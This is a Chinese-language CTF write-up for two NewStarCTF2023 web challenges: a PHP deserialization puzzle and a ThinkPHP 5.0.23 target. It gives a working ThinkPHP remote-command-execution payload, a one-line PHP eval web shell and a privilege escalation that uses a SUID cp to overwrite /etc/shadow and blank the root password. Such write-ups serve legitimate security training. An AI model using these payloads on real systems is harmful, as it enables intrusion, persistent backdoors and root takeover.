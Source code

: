```yaml
---
title: NewStarCTF2023 week5 web前两题
date: 2023-10-30 16:48 +0800
categories: [CTF,WEB]
tags: [web]
media_subpath: /
---
```




## Unserialize Again

源题目内容

```php
<?php
highlight_file(__FILE__);
error_reporting(0);  
class story{
    private $user='admin';
    public $pass;
    public $eating;
    public $God='false';
    public function __wakeup(){
        $this->user='human';
        if(1==1){
            die();
        }
        if(1!=1){
            echo $fffflag;
        }
    }
    public function __construct(){
        $this->user='AshenOne';
        $this->eating='fire';
        die();
    }
    public function __tostring(){
        return $this->user.$this->pass;
    }
    public function __invoke(){
        if($this->user=='admin'&&$this->pass=='admin'){
            echo $nothing;
        }
    }
    public function __destruct(){
        if($this->God=='true'&&$this->user=='admin'){
            system($this->eating);
        }
        else{
            die('Get Out!');
        }
    }
}                 
if(isset($_GET['pear'])&&isset($_GET['apple'])){
    // $Eden=new story();
    $pear=$_GET['pear'];
    $Adam=$_GET['apple'];
    $file=file_get_contents('php://input');
    file_put_contents($pear,urldecode($file));
    file_exists($Adam);
}
else{
    echo '多吃雪梨';
} 
```

题目这里的考点应该 phar 反序列化，但是可能出题人出的不够严谨，这里出现了非预期

非预期可以直接命令执行，获取flag

![Unserialize Again_非预期exp](assets/Unserialize Again_非预期exp.jpg)

![Unserialize Again_非预期结果](assets/Unserialize Again_非预期结果.jpg)



## Final

一个thinkphp 5.0.23，存在命令执行漏洞。

过滤了 system（phpinfo 可以正常执行），之后是低权

```
_method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1
```



![image-20231030131251182](assets/image-20231030131251182.png)

payload：

```
GET
/index.php?s=captcha
POST
_method=__construct&filter[]=passthru&method=get&server[REQUEST_METHOD]=id
```

写马 进行提权，后面使用哥斯拉 超级终端。

```
echo '<?php @eval($_POST[12]); ?>' > 1.php
```

查看suid 存在cp，我们可以直接cp shadow 查看 root 密码，这里的root 没有显示密码，我们直接修改shadow 

![image-20231030162316084](assets/image-20231030162316084.png)

![image-20231030164151705](assets/image-20231030164151705.png)



cp suid payload

```
LFILE=file_to_write
echo "DATA" | ./cp /dev/stdin "$LFILE"
```

直接copy 到命令行

```
# root:*:17847:0:99999:7:::

LFILE=/etc/shadow
echo "root::17847:0:99999:7:::" | /bin/cp /dev/stdin "$LFILE"

su root
cat /flag*
```

![image-20231030164051944](assets/image-20231030164051944.png)
